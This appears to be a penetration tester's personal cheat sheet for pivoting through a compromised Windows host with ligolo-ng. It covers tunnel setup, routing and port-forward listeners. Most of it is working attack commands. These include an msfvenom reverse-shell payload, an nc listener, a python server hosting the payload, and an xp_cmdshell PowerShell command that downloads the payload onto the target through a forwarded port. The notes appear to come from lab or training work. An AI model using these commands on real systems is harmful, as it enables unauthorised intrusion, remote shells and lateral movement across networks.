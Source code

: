 **==run proxy/agent==**
on kali:
┌─╼[~/ligolo-ng/cmd/proxy]
```
./ligolo-proxy -selfcert
```

on windows target:
```
.\ligolo-agent.exe -connect 192.168.49.109:11601 -ignore-cert
```
time="2024-05-10T15:20:10-07:00" level=warning msg="warning, certificate validation disabled"
time="2024-05-10T15:20:11-07:00" level=info msg="Connection established" addr="192.168.45.181:11601"

from kali regular terminal:
```
sudo ip tuntap add user daniel mode tun ligolo
````

```
sudo ip link set ligolo up
```

on kali orange ligolo terminal:
```
session
```

```
start
```

to add route to kali from other network listed on target machine's arp table in kali terminal:
```
sudo ip route add 172.16.109.0/24 dev ligolo
````
- ping ip listed in target machine's arp table from kali to confirm

if you need to delete a route (from kali regular terminal):
`sudo ip route del 10.10.126.0/24`


==**Connecting back to kali from target; ie upload Reverse shell**==
if you need to add a way for machine on subnet I've pivoted to, to reach back to my kali machine.  To upload a rev shell from my python server for example: 
1. put this command in the orange ligolo terminal:
	`listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444`
	- forward ports 1234 on pivot machine to 4444 kali listener

2. Put in orange ligolo terminal:
	`listener_add --addr 0.0.0.0:83 --to 127.0.0.1:80`
	- python webserver on port 80 on kali and call back to that with port 83 from target machine
		- ie anything goes to port 83 at MS01, it will reach your kali machine at port 80

3. then create a reverse shell so target machine can reach back to pivot machine like so:
	`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.159.147 LPORT=1234 -f exe -o payload_1234.exe`
	- LHOST would be the pivot machine's **internal** IP

4. `python -m http.server 80`
	- where payload_1234.exe is located

5. `nc -lvnp 4444`

6. `exec xp_cmdshell "powershell -c iwr -uri http://10.10.159.147:83/payload_1234.exe -Outfile c:\windows\temp\payload_1234.exe"`
	- will trigger ms01 (the pivot machine) to trigger my kali and port forward
	- notice port 83


==**Check ligolo status / listeners**==
put in regular kali terminal:
```
ligolo-ng status
```

put in ligolo orange terminal:
```
listener_list
```

check routes on kali:
```
ip route
```


**==compile listeners/proxy==**
┌─╼[~/ligolo-ng/cmd/agent]
└────╼ `ls`          
ligolo-agent  ligolo-agent.exe  main.go

┌─╼[~/ligolo-ng/cmd/agent]
└╼  `sudo GOOS=windows GOARCH=amd64 go build -o ligolo-agent.exe main.go`
	- compile windows version

`go build -o ligolo-agent main.go`
`chmod +x ligolo-agent`
- compiles linux version
- don’t need to recompile if IP changes, just the command to point back at proxy